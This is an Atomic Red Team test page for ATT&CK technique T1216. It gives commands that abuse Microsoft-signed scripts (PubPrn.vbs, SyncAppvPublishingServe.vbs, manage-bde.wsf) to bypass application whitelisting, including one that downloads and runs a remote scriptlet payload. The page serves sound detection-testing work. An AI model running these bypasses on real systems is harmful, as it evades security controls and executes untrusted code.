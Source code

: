 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserve-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/src/T1216.sct|

#### Run it with `command_prompt`! 
```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```



<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServe script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|

#### Run it with `command_prompt`! 
```
C:\windows\system32\SyncAppvPublishingServe.vbs “\n;#{command_to_execute}”
```



<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:\Windows\System32\calc.exe|

#### Run it with `command_prompt`! 
```
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```

#### Commands to Check Prerequisites:
```

```

#### Cleanup Commands:
```
set comspec=C:\Windows\System32\cmd.exe
```

<br/>
